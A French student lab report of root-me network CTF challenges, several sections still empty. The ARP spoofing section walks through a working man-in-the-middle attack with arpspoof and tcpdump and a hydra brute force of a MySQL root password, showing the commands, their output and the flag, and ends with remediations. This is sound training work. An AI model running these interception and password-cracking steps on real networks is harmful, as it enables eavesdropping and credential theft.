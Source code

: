 # TP6 : Un peu de root-me


## Sommaire

- [TP6 : Un peu de root-me](#tp6--un-peu-de-root-me)
  - [Sommaire](#sommaire)
  - [I. DNS Rebinding](#i-dns-rebinding)
  - [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
  - [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)
  - [IV. Bonus : Trafic Global System for Mobile communications](#iv-bonus--trafic-global-system-for-mobile-communications)

## I. DNS Rebinding

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/HTTP-DNS-Rebinding)


🌞 **Write-up de l'épreuve**

### Pour ce chall, on nous présente un serveur qui va récupérer le contenu de l’URL qu’on lui envoie et nous l'afficher. On nous donne aussi le [code source](code_source.py) de la page.

En lisant le code source, et en consultant la page web, nous avons plusieurs indices sur ce qu'il faut faire. 

Il faut réussir à voir la page `http://challenge01.root-me.org:54022/admin` car elle contient le flag, le problème étant que la requete vers cette page doit venir de l'ip `127.0.0.1`, ou localhost.

Nous savons aussi que la page web ne peut pas afficher des pages locales.



🌞 **Proposer une version du code qui n'est pas vulnérable**


## II. Netfilter erreurs courantes

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/Netfilter-erreurs-courantes)


🌞 **Write-up de l'épreuve**

🌞 **Proposer un jeu de règles firewall**


## III. ARP Spoofing Ecoute active

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/ARP-Spoofing-Ecoute-active)

🌞 **Write-up de l'épreuve**

### Le but de ce chall est de récupérer des informations confidentielles qui transitent sur un réseau, et nous avons accès à ce réseau à travers une machine que nous contrôlons.

On nous dit que le flag est la concaténation de la réponse à une requête sur le réseau, ainsi que le mot de passe de la base de données. On va donc mettre en place un man-in-the-middle pour trouver la première partie, puis on va brute force le mdp de la base de donnée pour la seconde partie. 

```
# apt install iproute2 -y

# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever

```
Nous allons commencer par scanner le réseau local afin de voir les machines qui y sont présentes.
```
# apt install nmap -y

# nmap -sn 172.18.0.0/16
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-04 15:18 UTC
Nmap scan report for 172.18.0.1
Host is up (0.000032s latency).
MAC Address: 02:42:D5:43:77:9E (Unknown)
Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.3)
Host is up (0.000031s latency).
MAC Address: 02:42:AC:12:00:03 (Unknown)
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000036s latency).
MAC Address: 02:42:AC:12:00:04 (Unknown)
Nmap scan report for fac50de5d760 (172.18.0.2)
Host is up.
```
On voit deux machines distinctes, un client en 172.18.0.3, et une base de données en 172.18.0.4. 

Nous allons ensuite mettre en place un man-in-the-middle entre ces deux machines, afin de pouvoir consulter le trafic qui passe. Nous allons utiliser la technique du ARP poisoning afin que le client pense que nous sommes la DB, et que la DB pense que nous sommes le client.
```
# cat /proc/sys/net/ipv4/ip_forward
1
```
On regarde si le forwarding de paquet est activé, sans cela les paquets ne pourront pas transiter à travers notre machine et ainsi atteindre leur cible originelle.

 Dans un deuxième temps, nous allons utiliser `arpspoof` pour envoyer continuellement des paquets ARP qui vont falsifier la table ARP du  client, et de la DB. 

```
# arpspoof -t 172.18.0.3 -r 172.18.0.4
2:42:ac:12:0:2 2:42:ac:12:0:3 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:2
2:42:ac:12:0:2 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.3 is-at 2:42:ac:12:0:2
```

Nous allons scanner la machine db afin de voir quelles services tournent.
```
# nmap 172.18.0.4
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-04 15:29 UTC
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000037s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:AC:12:00:04 (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```
On voit donc que c'est une base de données mysql avec le port 3306 d'ouvert.

Nous allons maintenant utiliser `tcpdump` pour voir les données qui transitent sur notre réseau, en précisant bien qu'on ne veut que voir les paquets venant ou partant vers le port 3306.
```
# apt install dsniff tcpdump -y

# tcpdump -A port 3306


first part of the flag: l1tter4lly_4_c4ptur3_th3_fl4g
```
Nous voyons donc la première partie du flag dans un des paquets.

Nous allons ensuite télécharger une liste des mots de passe les plus fréquemment utilisés afin de brute force le mot de passe de la DB.
```
#wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

#apt install hydra -y

#hydra -l root -P rockyou.txt 172.18.0.4 mysql

[3306][mysql] host: 172.18.0.4   login: root   password: heyheyhey
```
Nous trouvons donc comme mot de passe de db `heyheyhey`.

Le flag final est donc: `l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey`
 



🌞 **Proposer une configuration pour empêcher votre attaque**

Il y a plusieurs remédiations que nous pouvons mettre en place.

D'abord, afin d'empêcher le MITM, nous pouvons mettre en place des entrées ARP statiques, ainsi qu'un `Dynamic ARP Inspection` qui évalue la validité de chaque paquet ARP.

Afin d'empêcher un attaquant de retrouver le mot de passe, il faudrait interdire la connexion avec root quand la connexion ne vient pas du local host, il faudrait aussi utiliser un mot de passe plus secure, et il faudrait utiliser l'option `require_secure_transport` afin que toutes les connections soient chiffrées.


## IV. Bonus : Trafic Global System for Mobile communications

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/Trafic-Global-System-for-Mobile-communications)

⭐ **BONUS : Write-up de l'épreuve**
